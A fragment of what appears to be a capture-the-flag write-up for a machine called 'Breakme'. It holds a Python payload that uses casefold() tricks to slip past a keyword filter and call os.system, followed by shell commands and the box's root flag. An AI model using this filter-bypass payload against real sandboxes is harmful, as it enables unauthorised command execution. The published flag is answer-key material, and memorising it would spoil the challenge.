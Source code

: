 or
```bash
__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('/lib/yorick/bin/yorick')
```

```bash
cd ~

id

ls -la

wc -c .root.txt

root@Breakme:~# 
cat .root.txt 
```

Root flag:
```bash
e257d58481412f8772e9fb9fd47d8ca4
```